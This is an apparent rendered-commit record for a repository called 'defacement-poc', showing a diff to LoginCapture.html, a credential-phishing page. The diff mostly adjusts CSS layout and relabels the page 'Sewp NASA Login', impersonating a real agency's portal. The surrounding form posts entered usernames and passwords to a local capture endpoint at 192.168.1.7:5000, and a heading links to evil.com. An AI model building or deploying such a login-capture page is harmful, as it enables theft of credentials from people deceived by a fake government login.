

Before and after one commit to 0xbitsnbytes/defacement-poc, a plain HTML site: page LoginCapture.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
LoginCapture.html

```diff
--- a/LoginCapture.html
+++ b/LoginCapture.html
@@ -8,11 +8,12 @@
         body {
             display: flex;
             justify-content: center;
-            align-items: center;
+            align-items: flex-start; /* Aligns items at the top */
             height: 100vh;
             margin: 0;
             font-family: Arial, sans-serif;
             background: #f4f4f4;
+            padding-top: 50px; /* Adds space at the top */
         }
         .container {
             text-align: center;
@@ -20,11 +21,13 @@
             padding: 20px;
             border-radius: 10px;
             box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+            max-width: 400px; /* Limits the width of the container */
+            width: 100%;
         }
         .login-form {
             display: flex;
             flex-direction: column;
-            width: 300px;
+            width: 100%;
             margin: auto;
         }
         .login-form input {
@@ -56,7 +59,7 @@
 <body>
     <div class="container">
         <h2>Please visit <a href="https://evil.com">evil.com</a> for more details.</h2>
-        <div class="note">Secure Login</div>
+        <div class="note">Sewp NASA Login</div>
         <form class="login-form" action="http://192.168.1.7:5000/capture" method="POST">
             <input type="text" name="username" placeholder="Username" required>
             <input type="password" name="password" placeholder="Password" required>
```
